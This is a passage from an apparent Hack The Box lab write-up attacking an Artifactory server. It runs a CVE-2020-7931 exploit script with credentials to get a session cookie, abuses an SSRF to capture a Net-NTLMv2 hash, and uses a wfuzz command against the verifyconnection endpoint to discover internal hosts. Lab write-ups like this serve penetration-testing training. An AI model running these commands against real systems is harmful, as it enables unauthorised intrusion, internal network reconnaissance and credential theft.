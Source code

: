 This OSS Artifactory version is not vulnerable to CVE-2020-7931 ([1](https://github.com/atredispartners/advisories/blob/master/ATREDIS-2019-0006.md), [2](https://github.com/gquere/CVE-2020-7931)):

```
$ export cookie=$(./artifactory_CVE-2020-7931.py -H http://10.13.38.19:8081/ -g -u admin -p 'snovvcrash.r0cks!' | grep '-') && echo $cookie
```

SSRF with "Import Repository from Path" functionality to get self Net-NTLMv2.

[![artifactory-ssrf.png](/assets/images/htb/endgames/rpg/artifactory-ssrf.png)](/assets/images/htb/endgames/rpg/artifactory-ssrf.png)
{:.center-image}

NTLM2 response is not crackable.

[![netntlmv2-repository_admin.png](/assets/images/htb/endgames/rpg/netntlmv2-repository_admin.png)](/assets/images/htb/endgames/rpg/netntlmv2-repository_admin.png)
{:.center-image}

SSRF with `/api/system/verifyconnection` to get internal HTTP servers:

```
$ wfuzz -c --basic 'snovvcrash:snovvcrash.r0cks!' -u 'http://10.13.38.19:8081/artifactory/api/system/verifyconnection' -H 'Content-Type: application/json' -d '{"endpoint":"http://192.168.FUZZ.FUZ2Z"}' -w w -w w --hc 400
000031708:   200        0 L      4 W      34 Ch       "125 - 88"
000031755:   200        0 L      4 W      34 Ch       "125 - 135"
```
